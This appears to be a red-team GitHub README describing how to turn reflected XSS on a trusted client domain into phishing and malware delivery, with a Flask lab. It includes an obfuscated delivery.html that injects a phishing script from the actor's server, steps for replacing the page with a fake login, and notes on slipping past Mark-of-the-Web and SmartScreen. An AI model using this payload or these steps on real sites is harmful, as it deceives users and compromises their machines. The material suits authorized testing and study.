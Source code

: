 # lauraops07 XSS at its finest. "Weaponizing XSS vulnerabilities for Red Team engagements."
<img src=assets/meme1.png>

## Table of Contents
- [Introduction: The resurrection of web exploitation](#introduction-the-resurrection-of-web-exploitation)
- [Use Case](#use-case)
- [What about MotW?](#what-about-motw)
- [Lab](#lab)
- [Type I](#type-i---reflected-xss)
    - [Payload Delivery](#payload-delivery)
    - [Phishing](#phishing)
    - [Clickfix](#clickfix)
    - [HTML Smuggling](#html-smuggling)
- [Type II](#type-ii---stored-xss)
- [Type-0](#type-0---dom-based-xss)
- [Extra Miles: CRLF Injection](#extra-miles-crlf-injection)
- [Limitations](#limitations)
- [Resources](#resources)

## Introduction: The resurrection of web exploitation 
Most red team members are giving their 100% to be creative in crafting the "perfect" phishing attack completely ignoring the web exploitation aspect and its capabilities.

And no, I'm not talking about gaining initial access through RCEs by exploiting a CVE or using noisy exploits that the SOC is already aware of and has rules in place for. I'm talking about simple client side attacks like XSS, which, with a bit of effort, can save time. For example, they can eliminate the need to constantly spin up new domains or wait for a domain to "mature" before it's usable in an engagement.

To be clear: I’m not claiming to have invented something brand new. Threat actors are using similar way to fool their victims(compromising wordpress sites or web applications in general). What I’m doing is connecting the dots and approaching it in what I hope is a more thoughtful, "crafty" way.

## Use Case
During red team engagements while recon phase(passive, active), we may discover a simple XSS vulnerability in forgotten client's domain (webapp without WAF attached on it) that doesn't appear immediately useful. For example we might not be able to steal sensitive data like cookies because the application is just a basic webpage with minimal functionality. However, since the application is hosted under a legitimate client's domain, it can still be exploited as a trusted delivery mechanism to weaponize, distribute malware and phish unsuspecting victims.

## What about MotW?
MotW can be a real headache for red teamers. When a file is downloaded from an untrusted source, Windows adds metadata that marks it. Then, when you try to run it, SmartScreen can block/warn the user.

But lets think about the following scenario: You’re already inside the client’s network, you might find a local intranet app with XSS vulnerability. You could use that to deliver your payload. Since it’s coming from local intranet (Zone ID 2) , MotW doesn’t get applied, and that gives a better chance to your payload to get executed.

Another one: The client's domains (*.client.net) might belong to Zone ID 2, which gives a better change to not trigger SmartScreen while execution.

| Zone ID | Displayname | Description |
|---|---|---|
| 0 | Computer | Your computer |
| 1 | Local intranet | This zone contains all Web sites that are on your organization’s intranet. |
| 2 | Trusted sites | This zone contains Web sites that you trust not to damage your computer or data. |
| 3 | Internet | This zone contains all Web sites you haven’t placed in other zones |
| 4 | Restricted sites | This zone contains Web sites that could potentially damage your computer or data. |

[https://isc.sans.edu/diary/31732](https://isc.sans.edu/diary/31732)

## Lab
The lab contains a simple Dockerized application written in Python using Flask. Follow the commands below to build and run it.
```bash
$ cd /webapp
$ sudo bash build.sh
```

## Type I - Reflected XSS
Weaponizing refrected XSS - Non-Persistent. This is one of the most overlooked types of XSS, primarily because it requires user interaction such as tricking the victim into clicking a malicious link. However, with a bit of creativity this type of XSS can be exploited in surprisingly powerful ways.

![lab](assets/lab.png)

Before showcasing the implemented techniques certain requirements must be met for reflected XSS.
- The actor already has a web server hosting JavaScript templates, as URL length restrictions prevent passing the entire payload directly.
- The actor's web server has CORS enabled with * (wildcard) allowing anyone to fetch resources from it. For demo: [scenarios/templates/server.py](/scenarios/templates/server.py)

### Payload Delivery
Well. Even if you're not in the cybersecurity industry you might still recognize what an XSS payload looks like so it's important to obfuscate the URL or HTML.
- URL encoding x2
- HTML with embedded javascript containing the rediction URL encoded e.g. base64.
- Future work: more obfuscation techniques.

Ofcourse, there are many other ways to obfuscate it for better OPSEC.

Example (delivery.html):
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title></title>
    <script>
        window.onload = function () {
            let blob = "aHR0cDovL2xvY2FsaG9zdDoxMzM3Lz91c2VybmFtZT1uaW5qYWtpPHNjcmlwdCBzcmM9Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MS9qcXVlcnkucGhpc2hpbmcuanMiPjwvc2NyaXB0Pg==";
            <!-- 
                http://localhost:1337/?username=ninjaki<script src="http://localhost:8081/jquery.phishing.js"></script>
            -->

            window.location.href = atob(blob);
        };
    </script>
</head>
<body>
</body>
</html>
```


### Phishing

The vulnerable application already has its CSS styles and DOM content loaded (including JavaScript and HTML). Therefore, to successfully perform the attack, some modifications must be made:
- Clear the existing CSS styles
- Clear the existing HTML/DOM content
- Change the window title based on the scenario
- Inject new HTML content along with custom CSS
- Inject the necessary JavaScript
- Replace the browser history/URI state with something that appears legitimate e.g. `/login`, `/admin`

![phishing](assets/phishing.gif)

### Clickfix

![phishing](assets/clickfix.gif)

### HTML Smuggling

![phishing](assets/smuggling.gif)

## Type II - Stored XSS
"Future work"

## Type-0 - DOM Based XSS
"Future work"

## Extra Miles: CRLF Injection
"Future work"

## Limitations
- Delivering the `.html` file with javascript code is not tested through "secure" mail gateways and sandbox tools in general.

## Resources
- [https://owasp.org/www-community/Types_of_Cross-Site_Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/)
